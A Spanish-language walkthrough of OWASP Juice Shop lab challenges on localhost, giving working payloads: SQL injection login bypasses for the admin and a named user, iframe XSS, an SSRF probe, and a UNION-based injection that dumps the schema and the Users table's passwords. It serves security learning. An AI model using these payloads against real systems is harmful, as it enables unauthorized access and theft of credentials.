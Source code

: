 ## Acceder a la cuenta del Admin gracias a una inyeccion SQL

Es uno de los primeros retos, consiste en loguearse en la cuenta del admin con una inyeccion sql básica.

Explicación -> la inyeccion consiste en poner en el panel de login, **' or 1=1-- -** que dice lo siguiente. 
*O el usuario es 'texto vacío' (NO) O 1=1 (SI)* Como es un OR, se da por vaĺido con que una de esas afirmaciones sea verdad (1=1).

Así que entramos a la cuenta del Admin porque esta inyeccion opera con el id de usaurio 1, que suele corresponder al admin
> Un id  es un índice en una tabla sql que corresponde a cada entrada, normalmente el administrador es el primero que se añade asi que tiene un 1.

------------------------------------------------------------------------

## Inyeccion XSS de Iframe

Un ataque XSS es inyectar código a un panel de javascript, resultando en que la web lo asimila como propio e interprete.
Este se suele probar por tanto con paneles, en este caso el más visible es el de "Search". probé la clásica
```<script> alert("XSS") </script>``` que crea una ventana emergente, no funciónó pero en la "scoreboard" ponía el que si funcianaría
```<iframe src="javascript:alert('XSS')">``` que es muy similar al "script src" tiene mucho sentido ya que la web carga un iframe todo el rato (si haces curl ves 
el código de este y no de su contenido)

Tambien, probé a intentar un ataque SSRF aprovechandome de este panel, un SSRF es hacer que el servidor mande una consulta a sí mismo, revelando
datos confidenciales. Como tira contra el localhost, cree un servidor con python ```sudo python -m http.server 80``` quedó la petición asi 
```<iframe src="http://127.0.0.1:8080">``` Haciendome un directory listing o filtrado de carpetas de mi porpio servidor.

Otras cosas que probé fue cargar de mi direccion un index.html con una reverse shell, pero el sistema me lo mostraba sin interpretarlo. Tampoco
funcionço un LFI al /etc/password local. Aun así tenemos un punto interesante para hacer consultas que pueda derivar de un SSRF (o consultas desde
el propio servidor)

------------------------------------------------------------------------

## Loguearse como Bender

Para registrarse como el usaurio "bender@juice-sh.op" se utiliza una inyeccion sql simple, similar a la que usamos para el admin,
```bender@juice-sh.op'-- -``` Lo que hace es cerrar la query email='bender@juice-sh.op' y comentar el resto para que ignore que hemos puesto
mal la contraseña.

------------------------------------------------------------------------

## SQLi a endpoint oculto

En el panel de busqueda de producto, probé una sqli, lo tipico de '  pero no funcionaba. Resulta que este ```"http://localhost:3000/#/search?q="```
no es el endpoint verdadero al que le hace la petición...
Cuando analizamos en "Red" la peticion (con ctrol derecho inspeccionar), vamos una petición GET a search?q= y le damos a abrir en una pestaña nueva 
nos sale ```"http://localhost:3000/rest/products/search?q="```, siendo este vulnerable (por algo estaba escondido). Si sigue sin salir, recarga la página hasta ver
"/search?q"

**INYECCION**
```
# http://localhost:3000/rest/products/search?q='-- -    -> SQLite ERROR "incomplete input".
```
Dicho error se produce porque faltan parentesis asi que la query es algo como "SELECT * from 'tabla' where id=('nombre')", pero con un 
parentesis sigue dando error, asi que hay que poner dos. Nos filtra toda la tabla de productos. 
Si hacemos ctrl f para buscar "Crhistmas" obtenemos el id=10 que es el producto retirado navideño.

En el endpoint "/api/BasketItems" ponemos el id de producto 10 y le damos a hacer el pedido (siguiendo todos los pasos) nos dará el logro.

------------------------------------------------------------------------

## Filtrar toda la Databse

Primero tenemos que averiguar el numero de columnas
```
# http://localhost:3000/rest/products/search?q=search?q=')) order by 10-- -  Error number of columns
# http://localhost:3000/rest/products/search?q=search?q=')) order by 9-- - No error, o sea hay 9 columnas en la tabla en uso.
```

Si fuera un Maraidb la tabla maestra (tiene unformación sobre todas las tablas del servidor) seria "information_schema", 
pero en sqlite es "sqlite_master"-

```
# http://localhost:3000/rest/products/search?q=search?q=cucuxii')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM sqlite_master-- -
```
He puesto lo de cucuxii porque en productos no existe y solo nos mostrará la parte de sql_master, quitando todo el "ruido"
Para ver las bases de datos...
```
# http://localhost:3000/rest/products/search?q=search?q=cucuxii')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master-- -
```
Nos dice que hay una tabla users, y que entre otros, estan los campos "id", "username", "password"
Asi que...
```
# http://localhost:3000/rest/products/search?q=cucuxii')) UNION SELECT id,username,password,4,5,6,7,8,9 FROM Users-- -
```



